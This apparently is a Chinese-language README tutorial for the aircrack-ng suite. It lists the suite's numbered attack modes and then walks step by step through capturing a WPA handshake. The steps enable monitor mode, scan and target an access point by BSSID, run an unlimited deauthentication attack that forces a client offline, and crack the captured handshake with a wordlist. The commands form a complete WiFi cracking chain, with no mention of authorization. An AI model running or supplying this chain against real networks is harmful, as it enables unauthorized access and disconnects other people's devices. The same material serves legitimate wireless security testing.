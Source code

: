# aircrack-ng套件

Attack 0: Deauthentication [解除认证](http://www.aircrack-ng.org/doku.php?id=deauthentication) 
Attack 1: Fake authentication [伪造身份验证](http://www.aircrack-ng.org/doku.php?id=fake_authentication) 
Attack 2: Interactive packet replay [交互式数据包重播](http://www.aircrack-ng.org/doku.php?id=interactive_packet_replay) 
Attack 3: ARP request replay attack [ARP请求重播攻击](http://www.aircrack-ng.org/doku.php?id=arp-request_reinjection) 
Attack 4: KoreK chopchop attack [KoreK斩杀攻击](http://www.aircrack-ng.org/doku.php?id=korek_chopchop) 
Attack 5: Fragmentation attack [碎片攻击](http://www.aircrack-ng.org/doku.php?id=fragmentation) 
Attack 6: Cafe-latte attack [咖啡拿铁攻击](http://www.aircrack-ng.org/doku.php?id=cafe-latte) 
Attack 7: Client-oriented fragmentation attack [面向客户的分片攻击](http://www.aircrack-ng.org/doku.php?id=hirte) 
Attack 8: WPA Migration Mode [WPA迁移模式](http://www.aircrack-ng.org/doku.php?id=wpa_migration_mode) 
Attack 9: Injection test [注射试验](http://www.aircrack-ng.org/doku.php?id=injection_test)

Attack 0进行攻击

aircrack -ng 安装，*** Kali linux 是自带组件的。***

sudo apt-get update 
sudo apt-get upgrade

* #### 安装

##### sudo apt-get install aircrak-ng

+ #### 查看

##### ifconfig

+ 查看无线网卡

##### sudo airmon-ng

+ #### 启动监听模式

##### sudo airmon-ng start wlan0

+ #### 扫描WiFi

##### sudo airodump-ng wlan0mon

#### ***注***：airodump-ng <你的monitor名称>

##### BSSID是AP端的MAC地址

##### PWR是信号强度，数字越小越好

##### #Data是对应的路由器的在线数据吞吐量，数字越大，数据上传量越大。

##### CH是对应路由器的所在频道

##### ESSID是对应路由器的名称

+ #### 使用airodump-ng监听指定目标频道。

##### sudo airodump-ng -c 6 -w Desktop/handshake --bssid C0:00:00:00:00:48 wlan0mon



+ ###### 注：airodump-ng -c <AP的频道（如紫色所示）> -w <抓取握手包的存放位置（如黄色所示）> --bssid <AP的MAC地址（如紫色所示）> <你的的monitor名称>



**注**：握手包文件的拓展名为 `.cap` 如红色方框所示。

然后，你的网卡会开始监听你目标端的频道

sudo aireplay-ng -0 0 -a C0:00:00:00:00:48 -c 18:00:00:00:00:88 wlan0mon

注：aireplay-ng -<攻击模式，我们这里使用 解除认证攻击(黄色区域)> [攻击次数，0为无限攻击] -a <AP端的MAC地址> -c <客户端端的MAC地址> <你的的monitor名称>

这里我使用的是解除认证攻击模式，给客户端无限发送测试包使其下线。当你获取到握手包时，可以使用快捷重点内容键Ctrl + C 停止发送测试包。 

+ #### 关闭监听模式

##### sudo airmon-ng stop wlan0mon

##### `sudo aircrack-ng -w Desktop/wordlist.txt Desktop/handshake-01.cap` 

##### **注**：`aircrack-ng -w <字典路径> <握手包路径>